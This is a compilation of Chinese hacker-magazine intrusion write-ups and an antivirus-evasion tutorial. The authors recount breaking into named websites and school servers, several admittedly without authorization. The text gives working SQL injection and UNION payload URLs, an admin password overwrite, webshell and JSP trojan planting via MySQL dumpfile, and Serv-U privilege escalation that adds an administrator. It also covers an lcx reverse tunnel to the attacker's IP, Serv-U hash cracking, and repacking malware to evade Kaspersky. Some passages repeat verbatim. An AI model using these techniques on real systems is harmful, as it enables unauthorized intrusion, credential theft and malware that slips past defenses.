## 一、投票系统注入点

首先，打开长大在线的网站 http://www.yuol.cn/，看上去还不错，有新闻、影视、音乐、二手、论坛等 15 个栏目，新闻系统全部生成了静态页面，随便打开一条新闻，查看源代码 http://www.yuol.cn/Click.asp?NewsID=0692108541367008，好像是统计阅读次数的，试试有没有注入点，提交 `and 1=1`、`and 1=2` 都是返回一样的页面，新闻系统好像没什么问题。返回首页继续查找，首页链接全是静态新闻和其它栏目生成的静态页面，好像没有突破点。在首页的最下面有个热点调查，是个投票的版块，随便选个话题投票试试看，显示投票成功，查看投票结果 http://www.yuol.cn/Vote/VoteResult.asp?VoteID=0582600015568502，可能存

## 二、拿 webshell

在注入点，很多程序的投票点、报错处都存在问题。黑鹰基地最早的那套程序，报错处就存在注入点，提交 `http://www.yuol.cn/Vote/VoteResult.asp?VoteID=0582600015568502`，如图 1。


说明是 SQL Server 数据库，这下有得玩了。手工注入太浪费时间了，拿出教主的 HDSI 注入工具，写上注入地址，点开始，返回权限 db_owner，多句执行和子查询都支持，数据库 YUOL2005，可能和主站新闻系统共用一个数据库。现在可以浏览数据库服务器上的目录了，但是数据库服务器和 Web 服务器很可能是分离的。事后发现我的猜想是正确的。

不管数据库服务器和 Web 服务器是不是分离的，猜解出管理员用户名和密码后，进后台拿 webshell 应该是可以的。先猜解出管理员的用户名和密码（图 2）。


再来猜解新闻系统的后台。手工先试了几个常用的后台，都没有找到；用工具扫了一遍，也没有扫到后台；用 Google 找了也没有找到，检测陷入困境。重新整理思路，我刚才是猜测数据库服务器和 Web 服务器不在一起，还没有测试过，先查看一下数据库服务器的目录，发现了 `d:\Yuol2005`。按名字理解，应该是存放主站的文件夹，`d:\Yuol2005\main\` 里面有很多 ASP 文件，在主站的后面加上一个 `Search.asp`，返回搜索页面，说明存在这个文件；又试了几个文件，都返回了正常页面，这个很有可能就是存放主站的文件夹。

利用 xiaolu 的差异备份工具，备份了一个一句话 ASP 木马，在目录 `d:\Yuol2005\main\` 下，但是我在主站后面加上一句话 ASP 木马时，提示找不到该页面，都郁闷。这个可能是网站最初做的备份。在目录 `d:\Yuol2005\Main\` 下发现了 `yuolmaster` 这个文件夹，master 不是管理员的意思吗？马上在主站后面加上 `yuolmaster`，返回存在目录，习惯性地加上 `login.asp`，返回后台登录页面。

管理员密码是 MD5 加密的，groupid 也有三种，groupid=0 是超级管理员。先把管理员的 MD5 密码备份一下，然后把超级管理员密码更新：`update admin set PassWord='ec4d9fcb63505734' where name='along'`，`ec4d9fcb63505734` 是 124578 的 MD5 加密值，用户名 along，密码 124578，成功进入后台（图 3）。


从后台看，长江在线新闻管理系统好像是风讯 CMS 系统，听说风讯这套程序存在列目录的漏洞，先不管了。站点的物理路径是 `D:\WWWROOT\YUOL2005\`，和数据库服务器的目录列表不一样，说明 Web 服务器和数据库服务器是分离的，说明我刚才的猜想是正确的。

首先试了下上传，不允许上传 ASP 文件，转悠了半天，终于找到一个可以利用的地方：后台可以直接修改站点的配置文件。马上写入冰狐浪子微型 ASP 后门，风讯 CMS 系统的配置文件是 `Inc/const.asp`，用冰狐浪子微型 ASP 后门的客户端连了上去，上传一个大马上去（图 4）。


IP 是 10.10.6.40，应该是内网，可能是在路由器上做了端口映射，开放 80 端口用于提供 Web 服务。我用扫描器扫了一下，只扫到 80 端口。现在 Webshell 拿到了，看能不能提权拿下服务器。

## 三、提权拿下服务器

首先，我们来看下服务器对组件的支持情况，FSO 组件、WScript.Shell 都支持，而且 C 盘可以浏览（图 5）。


看样子提权有希望，可以执行 cmd 命令了。执行 `net user`、`net start`，返回用户列表和服务列表，有 Serv-U FTP 服务；执行 `netstat -an`，返回端口列表（图 6）。3389 终端端口开了，Serv-U 的默认端口号好像被改成 44283 了。不要紧，我这里刚好有 Serv-U 自定义端口本地提权工具，马上把可以自定义端口的 Serv-U 本地提权工具上传到 `C:\Documents and Settings\All Users\Documents\` 目录下，因为这个目录在默认情况下，Everyone 拥有完全控制权限。

在 Webshell 的 WScript.Shell 下执行命令：`C:\Documents and Settings\All Users\Documents\sul.exe 44283 "net user rabbitsafe 124578 /add" "net localgroup administrators rabbitsafe /add"`，查询用户是不是加上了，执行 `net user rabbitsafe`，返回结果（图 7）。


加管理员成功。服务器是在内网，要想连上远程桌面，可以用端口转发。马上把 lcx 改写的端口转发工具 `lcx.exe` 上传到 `C:\Documents and Settings\All Users\Documents\` 目录下。我是内网，几个同学一起共用一条网线，所以我要在路由器上开放一个端口（图 8）。

## 四、渗透总结

192.168.1.135 是我内网的 IP，打开 http://ip138.com/ 网站就知道我在公网的 IP 了。先在本机监听 99 端口，命令 `lcx.exe -listen 99 3389`，然后在 Webshell 的 WScript.Shell 下执行命令：`c:\Documents and Settings\All Users\Documents\lcx.exe -slave 58.49.147.19（我公网的 IP）99 127.0.0.1（服务器本地 IP）3389`，有数据返回，打开远程桌面连接，输入 127.0.0.1，成功登录服务器（图 9）。

到此为止，这次的渗透过程全部完成了。长江在线的所有栏目都放在这台服务器上，通过这台服务器可以继续内网渗透，利用 arpsniffer、溢出、暴力破解等方法。因为这次的任务是长江在线，所以也没有深入地渗透下去，以后有时间会继续渗透内网，今天的渗透就到这里了。^-^

很多服务器的数据库和 Web 服务器都是分开的，当碰到这种情况时，先别急着差异备份，先弄清楚思路，猜管理员的用户名和密码会是最实际的。关于后台的查找，可以先用工具，不行再用 Google 查找，还不行再想想管理员会怎么改，这个就是域名 + master。内网端口转发很早就有了，现在用的人也很多，而且可以穿透端口的防火墙，对于渗透内网非常实用。如果还有什么问题，请到《黑客手册》的论坛和我联系，我的 ID 是 rabbitsafe。


（文章中用到的工具 `lcx.exe` 和 `servu.exe` 已收录在光盘中）

> 编辑点评：
>
> 正统的渗透思路，过程比较详细和实用，不多点评，大家自己慢慢看。


- 从本文中你可以学到：
- webshell 提权的巧妙方法
- MySQL 导出文件语句

# 一、起因

上次写了一篇《漫长的渗透》，讲述了对四川理工学院的主站安全检测过程，历时六个月时间才拿下主站权限，主要写了从只开 80 端口到系统权限的渗透过程。同时还有一个分站服务器的权限，因为除了主站，其它的二级域名全在这个服务器上。时隔一个月后，我再次对这个服务器进行了安全测试，因为先前这台服务器的安全做得不错，不知道是否能再取权限。


# 二、起点权限

虽是分站服务器，除了学院主页不在这服务器上，其它站全在，所以流量是最大的。因为站多，我留的脚本后门也多。但现在再次来看时，后门都被删得差不多了，除了几个一句话语马，大马是一个都不存在了。再看看一句话马的权限，所有的 IIS 权限都被降为 guest 权限。还好，能列目录。试了试在这个 IIS 用户中上传大马，几个目录都没有写权限，更没有编辑权限。

在网站目录列表里看到一个 upfile 目录，作为上传目录，又是独立的 IIS 用户，应该有写入权限吧，于是试一试上传一匹大马，上传成功。再看看支不支持 PHP，传个 PHP 马上去，还好，支持 PHP，这时就想到提权这方面了。试试执行命令，没法执行。接下来我们看看服务器的大致情况：装有 Serv-U 6.3，但用了 Serv-U 独立用户，降了权限和设了本地密码；支持 PHP，当然 MySQL 是支持的，不过是本地连接；装有 MSSQL，不过全是 db 权限的用户连接，如图 1 所示。

所有的马都被删了，更恼火的是所有的 IIS 权都被降为 guest 权限了。找了好半天，还有一匹一句话马在上面。

可目录都没有写权限，还好这是学校的二级域名服务器，应该有 ACC 数据库目录的，一定有可写权限。

利用一句话马翻了一段时间的目录列表，找了个 data 的目录，写了一匹大马上去。只有一个盘可以访问，并且无任何权限。当然这时想到的就是提权了。看了下第三方服务，有 Serv-U 6.3 的，改了本地密码和做了权限设置，试了试没法利用；有 MSSQL 和 MySQL，可 MSSQL 全是 db 权限，没法利用，剩下的就是 MySQL 了。

# 三、再现生机

上面了解了服务器的大致服务和权限设置，要突破权限我们先从服务着手。还好这个 F 盘的目录设置不严，可以完全浏览，其它盘都不可以浏览。先找找看有没有 MSSQL 的 sa 用户和密码，找完了，结果和想的一样，没有。后来在 `c:\windows` 里找到 `my.ini`，MySQL 的 root 用户名和密码在里面，跟上次一样。那么是否可以注册扩展提权呢（图 2）？

创建 func 出错，MySQL 版本应该是 5.0 以下的。我也试着把 `mix.dll` 写入表导出到系统目录，可还是出错，搞不懂了，难道管理员做了权限限制？反正在这里用了各种方法转了老半天还是没得结果。

# 三、峰回路转

上面的 MySQL 实在没办法提上权去，再去别的地方转转看。能列目录就还有东西看，就有希望。别人常常说我运气好，其实很多发现是靠自己细心，而不是运气好。你花时间去看了，你也会“运气好”的。

目录，如图 3 所示。

看了这个目录有点疑惑，有点像 Apache，又有点不像，反正应该是另一套网站平台的安装目录。这个服务器已经有 ASP 和 PHP 了，难道还有传说中的 JSP？于是我 telnet 这个服务器的 IP 的 8080 端口，是打开的，看来有戏了。先用 IP 加端口访问一下看，如图 4 所示。

| 目录 |
|---|
| automake |
| bin |
| conf |
| contrib |
| lib |
| logs |
| modules |
| webapps |
| win32 |
| configure |


直接创建一个表，将一个 JSP 木马 `load_file` 到这个表中，再 `dumpfile` 到这个目录就行了。实践证明，MySQL 的 root 权限对任何目录都是可写的，所以通过这个方法，有时候在不能够突破 IIS 独立权限且又无法提权的情况下，并在得到 MySQL 账号后，跨目录写马不失为又一条新途径。所以说有时候思路是最重要的。如图 5 所示，成功写入。

可以访问，那么它有可能支持 JSP。从这个页面上看来是一个默认的页面，它应该存在一个默认的目录，先找找看。果然找到一个 ROOT 目录，里面有 `index.jsp` 文件。看了下源文件，和这个页面差不多，一阵惊喜，谁都知道 JSP 木马可能存在系统执行权限。


# 四、柳暗花明

可能现在大家都会说，传一个 JSP 木马到这个目录不就解决问题了吗？如果真是这么轻松就好了。上面也说了，是独立的 IIS 用户的 guest 权限，直接上传木马 no popedom，新建文件，no popedom，当然没权限了。

这里先前 MySQL 的 root 用户名和密码派上用场了，因为 MySQL 是以服务启动的，所以它的 root 权限有一定的文件操作权限。也许有人会想，直接利用 MySQL 的 root 权限弄出一个一句话马到这个目录不就得了？是能导出一句话马，可我在网上找了个 JSP 的一句话马，自己也研究了半天，老是没弄明白，不像 ASP 和 PHP 那么方便，传个一句话就搞定了。要是能直接通过 MySQL 账户操作文件，copy 一个 JSP 木马到这个目录该多好。我们来看几个语句：

```sql
create table test(line blob);
insert into test values(load_file('f:/wwwroot/jxxs/jkx/upfile/rose.jsp'));
select * from test into dumpfile 'f:/resin/webapps/ROOT/cmd1.jsp';
```

| 目录 |
|---|
| WEB-INF |
| cmd1.jsp |
| index.jsp |


现在我们看看能执行命令不，结果没有任何悬念，执行命令成功（图 6）。当然很多情况下我们都喜欢拿到 3389 权限或者 root 权限，这才算是完美的巅峰权限。同样，我也传了一个开 3389 的工具上去，建用户，开启 3389，成功占领桌面。


### 五、总结

文章没有技术性，想说的是在入侵的过程中，我们一定要注意思维的发散性，不要在一个地方等死，要把有用的信息收集起来，综合利用起来，信息的收集是很重要的。在得到一个 webshell 无计可施的情况下，尽量浏览 webshell 能浏览的东西，收集有用的信息，有时候会有意想不到的收获。我曾经在无法提权的情况下，居然在一个分站服务器上找到了主站的、保存有主站 FTP 连接程序的文件，当然就轻松拿到了主站的 FTP 用户名和密码。

> **编辑点评：**
> 这篇文章体现了作者收集信息的能力，找到了 JSP 的 Web 端口，利用 PHP 的 MySQL 的 root 口令导出 webshell，到了 JSP 的物理路径。其实入侵这个站还有一个办法，就是用 Web 代理转发，可以适合在 JSP 对外没有开放 8080 端口的情况下。我以前写过一篇类似的文章《Web 脚本代理的妙用》，发表在《黑客手册》上 2005 年的 10 期杂志。


- 从本文中你可以学到：
- 多种动态脚本的配合应用

# 一、事情起因

前几天上网，朋友说在中国住宅材料网的论坛上，论坛是 PHP 的，刚开始也不知道是什么版本，后来搞定才知道是 MolyX Board 版本的论坛。对于 PHP 版本的论坛我不太熟悉，只听过 Discuz、PHPBB，但是好像这个论坛和前面提到的都不一样，直接从论坛入手不太现实。看样子，还是要从主站入手。主站用的是 ASP 程序，但是没有什么明显的漏洞，注入漏洞用通用防注入程序补了，但是如果程序取得变量是 `request("id")` 这样的形式的话，是可以突破的，因为通用防注入程序对于来自客户端的 cookie 等不过滤。

但是我先找了下网站的后台，后台好像被管理员改了，我也没有试是否有 cookie 注入，后台都没找到，猜出管理员用户名和密码也没有用。主站的注册用户可以发布供求信息，先注册个用户，看看发布信息页面是否存在漏洞。登录后，在注册用户基本资料修改处有一个修改图片的地方，可以上传图片（图 1）。好像和动感商城的上传有些类似，先上传一张图片，用抓包工具抓包，提示上传成功。看一下抓到的数据包（图 2）。

## 二、拿下 webshell

口了，而且朋友平常对我也不错，我就一口答应了。

先在浏览器的地址栏里输入中国住宅材料网的论坛网址 http://www.chinazz001.com/bbs/，论坛是 PHP 的，刚开始也不知道是什么版本，后来搞定才知道是 MolyX Board 版本的论坛。对于 PHP 版本的论坛我不太熟悉，只听过 Discuz、PHPBB，但是好像这个论坛和前面提到的都不一样，直接从论坛入手不太现实。看样子，还是要从主站入手。主站用的是 ASP 程序，但是没有什么明显的漏洞，注入漏洞用通用防注入程序补了，但是如果程序取得变量是 `request("id")` 这样的形式的话，是可以突破的，因为通用防注入程序对于来自客户端的 cookie 等不过滤。但是我先找了下网站的后台，后台好像被管理员改了，我也没有试是否有 cookie 注入，后台都没找到，猜出管理员用户名和密码也没有用。主站的注册用户可以发布供求信息，先注册个用户，看看发布信息页面是否存在漏洞。登录后在注册用户基本资料修改处有一个修改图片的地方，可以上传图片（图 1）。好像和动感商城的上传有些类似，先上传一张图片，用抓包工具抓包，提示上传成功，看一下抓到的数据包（图 2）。

Uppath、filelx 等变量可以自定义，和动感商城的上传漏洞类似。在 `uppath` 的路径 `uploadpic/logo/` 加 `s.asp` 空格，总共加了 6 个字节，`Content-Length` 改成 968，用 nc 提交上传，返回上传成功，但是上传的文件改成了 jpg 结尾，都呵呵，原以为可以轻松搞定。可能管理员把上传漏洞补丁了，主站上除了信息和论坛栏目，也没有其它的栏目了。

既然主动不行，那就旁注试试看。拿出明小子的 domain3.5 穷举工具，在域名处写上 `http://www.chinazz001.com/`，点击查询，马上同一服务器上的站点都列出来了。服务器上存在 193 个网站，经过一番检测，确定 `http://www.chst.biz/bbs/` 网站论坛备份后的默认数据库没有修改，马上下载动网备份数据库 `http://www.chst.biz/bbs/databackup/dvbbs7.backup.mdb`，找出管理员后，很快拿到网站的 webshell 了（图 3）。

本来想提权试试，但是虚拟主机的权限设置得相当变态，没办法提权。该试的方法都试了，可以执行 ASP.NET 程序，ASP.NET 程序的权限是 user 用户，比 ASP 权限稍微高点，但是还是没办法查看 `e:\vhost\wwwroot\` 目录，而且我还不知道目标网站 `http://www.chinazz001.com/` 在哪个目录下。时间也不早了，先睡觉了，明天再说。

# 三、艰难拿论坛管理员

第二天上网，想到昨天的那个论坛没有搞定，心里不爽。重新打开 `http://www.chinazz001.com/bbs/`，在网站后面随便输入几个字母加上 PHP 后缀，打开网址 `http://www.chinazz001.com/bbs/fdasd.php`，没想到竟然报错了，而且网站的绝对路径暴出来了：`e:\vhost\wwwroot\zzclw\www\bbs\`，存放论坛的目录（图 4）。

现在想想办法，看能不能访问这个路径下的文件。虚拟主机一般是对每个网站建一个相应的用户，然后加入 guest 组（蝈蝈：这样提法并不是太恰当）。虚拟主机的做法一定在 IIS 的【站点、属性或者虚拟目录属性】→【目录安全性】→【匿名访问和验证控制】→【编辑】→【匿名访问】（蝈蝈：填写创建的那个用户名），设置所有的分区禁止这个用户访问，而刚才这个站点的主目录对应的那个文件夹设置允许这个用户访问，并且要去掉继承父权限，加上超管组和 SYSTEM 组。一般情况是不能互相访问的。

打开昨天拿到的 webshell，根本跳转不到 `e:\vhost\wwwroot\zzclw\www\` 目录里（图 5）。

但是昨天试了，服务器可以执行 ASP.NET 程序，ASP.NET 程序默认是 user 组权限运行。马上上传了一个 ASP.NET 的网站管理程序，提示上传成功，但是在浏览器里打开，提示找不到网页，我想可能是被杀了。前几天刚下了一个 lake2 写的 C/S 版的 ASP.NET 后门，我想这个 ASP.NET 一句话木马，杀毒软件应该不认识吧。按照使用说明，先建了个 `bin` 文件夹，把 `WebAdmin2Y.dll` 上传上去，再把 `vb.aspx` 上传到网站根目录下，在浏览器里打开，文件存在没有被杀。

这个 ASP.NET 一句话木马虽然小，但是该有的功能都有，而且又不会被杀，真不错。有个 File List 功能，而且权限是以 user 组运行，看看能不能列出目标网站 `e:\vhost\wwwroot\zzclw\www\` 目录里的文件，提交后成功列出目录（图 6）。


```http
POST /saveofile.asp HTTP/1.1
Accept: */*
Referer: http://www.chinazz001.com/upload_flash/
Content-Type: multipart/form-data; boundary=...
Content-Length: 962
...
uppath=uploadpic/logo/
filename=...jpg
```


```php
<?php
$servername = "...";
$dbname = "...";
$dbusername = "...";
$dbpassword = "...";
$tableprefix = "bbs_";
$superadmin = '1';
?>
```


马上上传了一个 PHP 木马到目标网站的根目录下（图 7），查看论坛的配置文件 `config.php`，数据库的 IP 地址和用户名、密码都出来了（图 8）。

为了不影响论坛的正常运行，加个管理员就 OK 了。用 MySQL 连接上去，MySQL 的连接语句是 `mysql.exe -h ip -u 用户名 -p 密码`，连接数据库语法是 `use com22212`（数据库名）。我先前注册了个用户，这个论坛的普通用户和前台管理员都在一个 `bbs_user` 表里，只要 `usergroupid=6` 就是前台管理员，只要把我注册用户的 `usergroupid` 字段更新成 6 就行了（图 9）。

```sql
mysql> use com22212;
Database changed
mysql> update bbs_user set usergroupid=6 where name='rabbit222';
Query OK, 0 rows affected ...
Rows matched: 1  Changed: 0  Warnings: 0
```


用 `rabbit222` 用户登录目标论坛 `http://www.chinazz001.com/bbs/`，返回论坛管理栏目，成功拿到论坛管理。员，现在我已经是前台管理员了（图10）。马上把朋友叫过来，给了他账号，让他登录上去，删掉了那些对他不利的莫须有的话，顺便给管理员留了言，删掉用户 rabbit222，我就下了。

# 四、文章总结

这次拿管理员，花了一定的时间，原以为利用主站的上传漏洞，可以轻松搞定主站，然后拿论坛管理员权限。但是，想不到管理员竟然补了漏洞，绕了不少弯路，最后还是服务器权限设置上的问题给了我机会。如果不会用到的脚本就要关掉，像 asp.net、php、jsp、cgi，如果那个站点用不到，就要关掉它，而且用这些脚本的权限要严格控制。如果管理员意识到这些脚本的危害性，就不会不管不顾了。希望国内的安全越做越好。

如果大家有什么不明白的地方，请去黑客手册的论坛给我留言，我的 id 是 rabbitsafe。

> [文章中用到的 lake2 的 asp.net 后门已收录在本期光盘中]

# 编辑点评

文章中作者有一点说法我不太满意，是这句“一看是 MolyX Board 论坛，觉得从论坛直接入不太现实”，从这句话可以看到作者对 PHP 的知识了解不多，看到不是网上公布有漏洞的 php 版本的论坛，立马放弃了。如果够严谨的话，我想作者应当再加一句，这个 MolyX Board 论坛我研究了下代码，自己是无能为力了。通过这篇文章，我也想说，现在的盲注入，大家的 asp、php 的知识都到一个层面上了，互相之间的水平也差不了多少，精通代码、具有自搞测试水平的人还是太少了。


- 从本文中你可以学到：
- XP SP2 对 xbm 格式图片的支持
- SERV-U 密码的破解

# 一、踩点

大四不考研，闲得慌，操起家伙对学校网站检测一下。Ping 一下域名，得到 IP 地址 202.199.***.*，但发现 Request time out，应该是有防火墙存在。用 WsockExpert 抓包访问下主页，IIS 6.0（图1），应该是 2003 的系统。Whois 查一下，这个 IP 就绑定了一个域名，旁注就不想了。为了得到更多的信息还是决定扫下，我用 superscan 的 syn 模式扫描全部端口，syn 速度一流，半开放模式一般不会打草惊蛇，结果开了四个端口：21、53、80、3389。命令行下先 ftp 一下，看看 banner 是 Serv-U 6.0 的（图2），以后提权有用啊。53 dns 我还不知道怎么利用，也没怎么听说从 53 渗透的。3389 虽说没管理员账号，还是要连一下的，至少可以得到准确的系统情况，WsockExpert 抓的 banner 是可以修改的，连后果然是 2003 的系统，远程溢出就放弃了。其实我很偏爱溢出的，一般都能得到系统权限，多快好省。现在就剩 80 的 web 了，注定是一个漫长的过程啊！

# 二、渗透

到网站转悠一圈，把几个“/”换成“%5c”，猜了几个“inc/conn.asp”和“conn.asp”，在百度里搜下“site:www.****.edu.cn filetype:mdb”，结果一无所获。本想捡个数据库，一切都省了，看来说得没那么便宜。天无绝人之路，试了 N 个“and 1=1”和“and 1=2”后，还是让我发现了几个注入点，不过是 Access 的数据库，但总比没有好，要啥自行车啊！

又是注入，恶俗啊。把注入点添到工具里，把工具添到 Gpass 里（Gpass 是一类似 SocksCap 的软件），让它慢慢地跑吧。一首歌后结果出来 5 个管理员账户，密码 md5 加密的，在线（www.cmd5.com）破一下，5 个破了两个，先 BS 一下。找后台也轻松搞到，但登录时我却傻眼了，验证码是个红叉（图3），我晕晕的，F5 几下依旧。头一回碰到这样的情况，都到这时候了总要被它拦了，真丢人啊！

回头想下思路，看着这个文章系统的文章还在更新着，管理员还经常来，他能进我就能进，排除程序年久失修的可能。管理员故意整个残废后台来玩我？不至于变态到这样的地步吧。那就是最后一种情况了，客户端的问题。查了下资料，果然 XP+SP2 对 xbm 格式的图片不支持。在注册表里 [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Security] 右侧窗口空白处点击鼠标右键，新建一个“DWORD”值。将该“新建的值”命名为“BlockXBM”（不含引号）。然后鼠标右键点击“BlockXBM”项，修改此键值为 8 个 0。点击“确定”按钮保存。刷新注册表，重打开后台地址，验证码原形毕露（图4），水到渠成进了后台，把 asp 小马改成 gif 格式上传，数据库备份成 asp，得到 webshell（图5）。


改下主页，随便又传几个小马，权限就不提了，闪人。毕竟是自己的学校，又是未授权的，弄大了不好看。

## 三、后记

过了很久，突然有一天想起我放上去的小马，打开看下竟然有一个还在，真不敢相信，是管理员钓我呢，还是我小马会有 upx？把管理员迷倒了？登录小马看源码，没有被插入邪恶的代码，真晕死。

在网站的硬盘里转悠到了 Serv-U 的文件夹下，习惯性打开 ServUDaemon.ini 文件，有 56 个用户，还真不少。加个超级用户？太龌龊了，服务器不知道猴年马月重启，算了吧。看了下密码，发现都是 34 位的（图6），怎么加的密？查下资料，原来是 24 个小写字母中随机产生两个和原密码进行 md5 加密成 32 位，然后把随机的那两位加到 32 位的前面，就产生最终的 34 位。有了加密的方法，解密也就有了思路，去掉 34 位的前两位，按 md5 破解，破出的密码去掉前两位（也就是随机产生的那两个字母），剩下的就是真正的密码了。我一开始就相信这 56 个密码里面肯定有弱口令，但我花半个小时查完时还是惊呆了，竟然破出了 12 个！

最后给管理员写封信，用这 12 个 ftp 账号看能换点啥不？

编辑点评：作者发现了 XP SP2 不解析 xbm 格式图片的问题，然后通过 Google 解决了。在解 Serv-U 的密码 hash 中，也是查资料，理清思路，然后反推理，得到问题的解决办法。看来作者是一个非常会思考的人，如果继续这样勤奋下去的话，他离天才的距离已经相去不远了。不过，Serv-U 的密码是不是这样破解，我没有测试，不得而知了。


**从本文中你可以学到：**

- 有关 Access 的 union 注入知识

一个朋友让我帮忙找网站的漏洞。网站总体简单，几个页面而已，没找一会，就找到了一个 open.asp 文件，存在注入漏洞。注入漏洞自然不用说了嘛，大家都熟悉得很，所以我也懒得说前面的如何判断之类的了……直接用朋哥的 DOMAIN 3.6 来处理（DOMAIN 大家应该都会用了吧？），如图 1 所示。看到了吧，Access 的。猜解了一下，表名为 ADMIN 的字段有三个，分别是 id、username、password。username 和 id 两个字段的值都能查出来，但是，password 字段的值就猜不出来了。小菜一般遇到这样的问题都是傻眼了。但是，有没有想过遇到问题要怎么处理呢？现在，我们要怎么办？大家应该知道 union 查询吧，不管是在 MSSQL 里还是在 MYSQL 里？剑心大叔（和土豆、软柯、LCX 软柯差不多老了吧？——小编：剑心貌似刚毕业参加工作几个月）在研究 PHP+MYSQL 的时候，已经有讲过 MYSQL 的 UNION 查询，另外，SuperHei 老哥的《Access 的跨库查询》也有比较详细的讲解（八卦小编：SuperHei 貌似都参加工作 N 多年了，辈分被花非花大佬完全碾压了），欢迎大家一起骚扰他们两位。


Access 数据库也是可以利用 UNION 查询的，只是限制的条件比较多而已。那么，我们就针对这个网站，来做一次 Access union 的演练。当然，我们必须先知道表名、字段名等。在图 1 里，我们已经都得到必要的信息了，那我们需要进一步得到的信息是，这个站的数据库一共有多少个字段。这可是件大工程啊（相信大家都知道剑心老叔测试的那几个大型门户站用过的语句了吧？超长！）。但是字段那么多，我们怎么能知道到底有多少个字段呢？一个个猜可是件很麻烦的事呢。`order by`！——这可是个好东西，不过用它有个限制，那就是我们查询的页面里面不能有出现排序的语句，也就是不能在我们要查询的页当中使用 “order by” SQL 查询语句。好了，需要了解的知识介绍完了，我们可以开始实战了：在 TT 地址里输入：http://www.xxx.com/open.asp?product=259 order by 10，返回正常，说明总字段 >= 10。然后继续更改 order by 后面的数值，一直到 30 还是正常的，到了 31 就返回错误（图2）。


这说明总字段数 = 30。接下来，我们可以提交如下语句：

http://www.XXX.com/open.asp?product=259%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30%20from%20admin

（图3）返回 1、11、12。

然后提交：

http://www.XXX.com/open.asp?product=259%20and%201=2%20union%20select%20id,2,3,4,5,6,7,8,9,10,username,password,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30%20from%20admin

（图4）


这样，暴出来的是 id=1 的 admin 表中的用户的信息，大家都看到了吧！当然，我们还可以继续探下一个管理员的名字，比如：

http://www.XXX.com/open.asp?product=259%20and%201=2%20union%20select%20id,2,3,4,5,6,7,8,9,10,username,password,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30%20from%20admin where id=2

==>（或者把 id=1 改成 id>1 也行）获取 id=2 管理员信息（图5）！

然后，改变 id> 后面的值，就可以依次猜解了（管理员，我们基本都只需要一个而已）。用户名和密码通通出来了，那么，猜后台……要是猜不到后台，就是一件让人很郁闷的事了。我们仍然用明哥的 DOMAIN 来猜，大部分的注入工具都有比较全的后台地址猜解功能（一般选择两个注入工具来搭配一下，本人一般用啊D和 DOMAIN）（图6）。

工具没找到后台，郁闷 ING……现在 Google 搜：后台 site:www.xxx.com，管理登录 site:www.xxx.com，admin site:www.xxx.com，都没出结果。


后来想了一下，旁注！随便找了几个站，看有没有后台之类的可以找（有一些服务器上的网站，都是使用同一套系统做的，所以，有的站可能会出现后台地址，也就是说如果能知道其中一个站的漏洞的话，那么这个服务器上的站将会沦陷！这就凭经验+运气了）。研究了一下，这个服务器的站就是使用同一套系统，找到其中一个站（图7）。

然后，回头来到我们的目标站点。输入 http://www.xxx.com/_admin/，后台地址就出来了（图8）。

输入管理员用户名和密码就进去了（图9）。

进了后台，当然是拿 webshell 了。有上传的地方，但是都作了严格的限制。眼睛亮的朋友，肯定能看出那编辑器的样子吧。很熟悉吧？在打开增加产品链接的时候，就能看到图10中 ewebeditor 的地址。可惜的是 ewebeditor 的后台全都被清理了，仅留下数据库而已（图11）。


虽然拿到了管理员的信息、ewebeditor 数据库，但是最终仍然无法获得 webshell，这就是为什么本文叫失败的入侵的原因了。但是想一想，在这次入侵当中，我们获得了什么经验没有？我之前并不知道有种后台地址是 _admin，现在通过入侵，我就知道了，后台还有一种是 /_admin。我们可以在 DOMAIN 里加入这个后台地址，以后遇到类似的后台，我们就可以直接用 DOMAIN 猜出来，这就是经验的提升了。不能因为没得到 webshell 而泄气，每次入侵之后，都要多加思考，经验才会积累。学会总结，思路才会明了！


> 编辑点评：
> 作者比较幸运，Access 盲注入能够用 union 的实例还是比较少的，能成功的更少了。我印象中老版的惊云下载后台的 user.asp 注入，是 Access 的 union 注入的一个经典例子。

# 黑客免杀班

- 从本文你可以学到：
- 了解 NTPacker
- 学习使用 CCL 定位特征码及 OD 修改特征码
- 学会利用注册机编写器制作文件补丁

各位朋友大家好，今天将带大家进入一个新的免杀领域。众所周知，免杀通常分为内存免杀和文件免杀。内存免杀相信大家已经练得炉火纯青了，只要针对杀毒软件找到对应的内存特征代码段，之后用 OD 修改即可，也可以加花指令，得到的效果是一样的。文件免杀的方法也很多，加壳就是其中最直接最简单的方法之一。

用于给木马加壳的一般都是生僻的壳或者是加密强度比较高的壳，但是一个普通的壳能否通过自己的修改达到同样的目的呢？如果可以的话，那么以后我们的免杀思路就更宽了。今天带大家亲手打造一款变异的壳，希望能够抛砖引玉，拓展大家的思路。

隆重请出今天的主角：NTPacker v2.1（下文简称 NTPacker），这是一款国外的壳，功能比较强大，有二种加密的方式，还可以插入系统进程。但不知道为什么，凡是被此壳加密过的文件，卡巴大叔就认为是病毒；也许此壳用于加壳木马的次数实在太多，大叔干脆直接灭了此壳，不管原来的文件是否带毒，实在是很可惜。难道没有办法了？Come on，跟我来。

首先整理下思路：卡巴杀的是壳，我们就找一个不带毒的 exe 文件，然后用 NTPacker 加壳，最后对壳做免杀，那么就可以通过卡巴的查杀。我就选择一个体积小的，而且本身不带壳的 exe 文件做测试：Windows 按钮突破专家。用卡巴杀下这个文件是否带毒，如图1所示。

卡巴检测到 Windows 按钮突破专家本身不带毒，之后用 NTPacker 加壳再杀，如图2所示。

下面来改造，其实改造的思路和改造木马一样，用到的工具还是 CCL，不同的是现在是带壳改造！设置 CCL 的手工操作参数设置，设定每次替换规定字节大小为 32，然后用卡巴杀下壳后的文件目录，特征代码定位如图3所示。

用 OC 偏移查找特征代码，载入之后转换为特征代码内存地址为：

00434080  
004340C0

OD 打开加壳的文件看看这段究竟是什么，如图4所示。

好了，这段最好修改的无非就是 `004043AA add eax,0E`，意思是 eax 加上 0E，把这段修改为：`sub eax,-0E`，sub 意思就是减，合起来就是 eax 减去一个负的 0E，负负得正，意思还是 eax 加上 0E，和上面 `add eax,0E` 完全等价！不懂的朋友可以看看汇编手册，做免杀汇编知识不可少哦，此刻卡巴大叔已经不认识被 NTPacker 加壳的 Windows 按钮突破专家了。


